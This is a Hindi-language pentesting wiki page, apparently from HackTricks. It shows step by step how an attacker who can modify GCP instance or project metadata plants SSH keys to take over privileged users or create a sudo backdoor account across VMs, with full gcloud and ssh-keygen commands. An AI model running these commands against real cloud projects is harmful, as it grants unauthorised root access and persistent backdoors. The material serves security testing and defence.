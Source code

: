 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

### Metadata को संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक उदाहरण पर मेटाडेटा का संशोधन **महत्वपूर्ण सुरक्षा जोखिमों** का कारण बन सकता है यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त कर लेता है।

#### **कस्टम मेटाडेटा में SSH कुंजियों का समावेश**

GCP पर, **Linux सिस्टम** अक्सर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट चलाते हैं। इसका एक महत्वपूर्ण घटक [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) है, जिसे **नियमित रूप से** उदाहरण मेटाडेटा एंडपॉइंट की **अधिकृत SSH सार्वजनिक कुंजियों** के लिए **अपडेट** की जांच करने के लिए डिज़ाइन किया गया है।

इसलिए, यदि एक हमलावर कस्टम मेटाडेटा को संशोधित कर सकता है, तो वह डेमन को एक नई सार्वजनिक कुंजी खोजने के लिए मजबूर कर सकता है, जिसे संसाधित किया जाएगा और **स्थानीय सिस्टम में एकीकृत किया जाएगा**। कुंजी को एक **मौजूदा उपयोगकर्ता के `~/.ssh/authorized_keys` फ़ाइल** में जोड़ा जाएगा या कुंजी के प्रारूप के आधार पर `sudo` अनुमतियों के साथ एक नए उपयोगकर्ता को संभावित रूप से बनाया जाएगा। और हमलावर होस्ट को समझौता करने में सक्षम होगा।

#### **मौजूदा विशेषाधिकार प्राप्त उपयोगकर्ता के लिए SSH कुंजी जोड़ें**

1. **उदाहरण पर मौजूदा SSH कुंजियों की जांच करें:**

- मौजूदा SSH कुंजियों को खोजने के लिए उदाहरण और इसके मेटाडेटा का वर्णन करने के लिए कमांड निष्पादित करें। आउटपुट में प्रासंगिक अनुभाग `metadata` के तहत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता नाम कुंजी से पहले आता है, जो एक कोलन द्वारा अलग किया जाता है।

2. **SSH कुंजी मेटाडेटा के लिए एक टेक्स्ट फ़ाइल तैयार करें:**
- उपयोगकर्ता नाम और उनकी संबंधित SSH कुंजियों के विवरण को `meta.txt` नामक टेक्स्ट फ़ाइल में सहेजें। यह नए कुंजियों को जोड़ते समय मौजूदा कुंजियों को बनाए रखने के लिए आवश्यक है।
3. **लक्षित उपयोगकर्ता के लिए एक नई SSH कुंजी उत्पन्न करें (`alice` इस उदाहरण में):**

- `ssh-keygen` कमांड का उपयोग करके एक नई SSH कुंजी उत्पन्न करें, यह सुनिश्चित करते हुए कि टिप्पणी फ़ील्ड (`-C`) लक्षित उपयोगकर्ता नाम से मेल खाता है।

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, उदाहरण के मेटाडेटा में पाए गए प्रारूप की नकल करते हुए।

4. **उदाहरण की SSH कुंजी मेटाडेटा को अपडेट करें:**

- `gcloud compute instances add-metadata` कमांड का उपयोग करके उदाहरण पर अपडेट की गई SSH कुंजी मेटाडेटा लागू करें।

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **नई SSH कुंजी का उपयोग करके उदाहरण तक पहुँचें:**

- लक्षित उपयोगकर्ता (`alice` इस उदाहरण में) के संदर्भ में शेल तक पहुँचने के लिए नई कुंजी का उपयोग करके SSH के साथ उदाहरण से कनेक्ट करें।

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **एक नया विशेषाधिकार प्राप्त उपयोगकर्ता बनाएं और SSH कुंजी जोड़ें**

यदि कोई दिलचस्प उपयोगकर्ता नहीं मिलता है, तो एक नया उपयोगकर्ता बनाया जा सकता है जिसे `sudo` अनुमतियाँ दी जाएंगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

यह संभव है कि SSH पहुँच को एक क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाया जाए **प्रोजेक्ट स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण प्रोजेक्ट के भीतर किसी भी उदाहरण तक SSH पहुँच की अनुमति देता है जिसने स्पष्ट रूप से प्रोजेक्ट-व्यापी SSH कुंजी को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **प्रोजेक्ट स्तर पर SSH कुंजी लागू करें:**

- `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को प्रोजेक्ट के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी प्रोजेक्ट में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **प्रोजेक्ट-व्यापी कुंजी का उपयोग करके उदाहरणों में SSH करें:**
- प्रोजेक्ट-व्यापी SSH कुंजी के साथ, आप प्रोजेक्ट के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण प्रोजेक्ट-व्यापी कुंजी को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुँच प्राप्त होगी।
- किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और प्रोजेक्ट स्तर पर सेट की गई SSH कुंजी का उपयोग करके पहुँच प्राप्त करने का प्रयास करता है।

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
